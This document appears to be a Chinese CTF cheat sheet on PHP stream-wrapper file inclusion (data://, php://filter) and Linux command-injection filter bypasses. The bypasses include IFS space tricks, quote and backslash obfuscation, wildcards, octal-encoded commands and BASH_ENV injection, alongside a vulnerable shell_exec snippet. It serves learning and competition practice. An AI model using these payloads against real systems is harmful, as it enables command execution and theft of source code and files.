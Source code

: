URL格式：`scheme://user:password@address:port/path?query#fragment`

**data://**

PHP>=5.2.0，可使用`data://`数据流封装器传递数据

```PHP
$a = $_POST['a'];
if (file_get_contents($pen) !== 'hello')
data://text/plain,hello        读取出 'hello'
data://text/plain;base64,xx    xx Base64 解码后读出内容
```

**php://filter**   读取源代码并进行base64编码输出

```PHP
include($a);
?a=php://filter/read=convert.base64-encode/resource=flag.php
```

### 命令执行

Linux下命令：

- ls替代：`dir`
- 空格绕过：`<`, `${IFS}`, `$IFS$9`, `%09`, `<>`, `<`, `%20`, `$IFS`
- cat命令替代：`more`, `tail`, `head`, `less`, `nl`, `sort`, `tailf`
- 截断字符替代：`&&`, `||`, `;`, `%0a`, `|`
- 反斜杠绕过：`ca\t fl\ag.txt`
- 编码绕过：`echo 'a==' | base64 -d`
- 单双引号绕过：`c'a't`, `c"a"t`
- 通配符绕过：`f?ag`, `f*`, `f[a-z]ag`, `f{l,b}ag`

```php
shell_exec("nslookup " . $domain);
// &quot;为"的html形式
```

若匹配flag，查看目录下文件内容

```bash
cat `ls` 
```

**环境变量注入实现命令执行**

- `BASH_ENV`：可以在`bash -c`的时候注入任意命令

```bash
BASH_ENV='$(id 1>&2)' bash -c 'echo hello' # 将输入id以及hello
```

注入时对命令中字母进行编码绕过可在Linux下执行

```bash
# cat flag 字母转换: oct(ord('c'))[2:]
# 每个字节前加上$
$'\143'$'\141'$'\164' $'\146'$'\154'$'\141'$'\147'
```
